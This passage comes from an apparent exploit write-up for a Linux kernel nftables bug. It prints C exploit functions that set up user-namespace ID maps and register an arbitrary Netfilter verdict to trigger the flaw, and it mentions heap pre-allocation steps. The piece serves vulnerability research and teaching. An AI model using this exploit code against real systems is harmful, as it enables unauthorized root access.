 ```c

    PRINTF_VERBOSE("[*] mapping gid %d to namespace gid 0...\n", old_gid);
	write_file("/proc/self/gid_map", gid_map, strlen(gid_map), 0);

#if CONFIG_VERBOSE_
    // perform sanity check
    // debug-only since it may be confusing for users
	system("id");
#endif
}
```

Copy

Codeblock 5.1.1.1.3: The `configure_uid_map()` exploit function written in C, which sets up the user and group mappings.

##### 5.1.1.2. Nftables

In order to trigger the bug, we need to set up hooks/rules with the malicious verdict. I will not display the full code here to prevent clutter, so feel free to check the Github repo. However, I use the function below to set the precise verdict.

```c
// set rule verdict to arbitrary value
static void add_set_verdict(struct nftnl_rule *r, uint32_t val)
{
	struct nftnl_expr *e;

	e = nftnl_expr_alloc("immediate");
	if (e == NULL) {
		perror("expr immediate");
		exit(EXIT_FAILURE);
	}

	nftnl_expr_set_u32(e, NFTNL_EXPR_IMM_DREG, NFT_REG_VERDICT);
	nftnl_expr_set_u32(e, NFTNL_EXPR_IMM_VERDICT, val);

	nftnl_rule_add_expr(r, e);
}

```

Copy

Codeblock 5.1.1.2.1: The `add_set_verdict()` exploit function written in C, which registers the malicious Netfilter verdict causing the bug.

##### 5.1.1.3. Pre-allocations

Before we start the actual exploitation part of the program, we need to pre-allocate some objects to prevent allocator noise, since there may be sensitive areas in the exploit where it may fail if there is too much noise in the background. This is not rocketscience, and more of a chore than technical magic.
